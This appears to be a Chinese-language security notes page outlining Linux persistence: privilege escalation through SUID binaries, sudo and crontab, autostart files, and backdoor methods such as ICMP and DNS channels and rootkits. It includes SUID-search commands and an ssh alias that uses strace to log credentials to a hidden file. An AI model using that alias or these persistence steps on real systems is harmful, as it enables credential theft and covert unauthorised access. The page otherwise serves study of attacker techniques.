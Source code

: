 持久化
========================================

权限提升
----------------------------------------
- 内核漏洞利用
- 攻击有root权限的服务
- 利用第三方服务提权
- 通过有SUID属性的可执行文件
    - 查找可能提权的可执行文件
    - ``find / -perm +4000 -ls``
    - ``find / -perm -u=s -type f 2>/dev/null``
    - ``find / -user root -perm -4000 -print 2>/dev/null``
    - ``find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null``
- 利用可用的root权限
    - ``sudo -l``
- 利用误配置的 crontab 任务

自启动
----------------------------------------
- /etc/init.d
- /etc/rc.d/rc.local
- ~/.bashrc
- ~/.zshrc

后门
----------------------------------------
- ssh 后门
    - ``alias ssh='strace -o /tmp/.ssh.log -e read,write,connect -s 2048 ssh'``
    - 后门账户
- 常见应用
    - ICMP
    - DNS
- icmp后门
- 后门端口复用
- ``.`` 开头隐藏文件
- rootkit
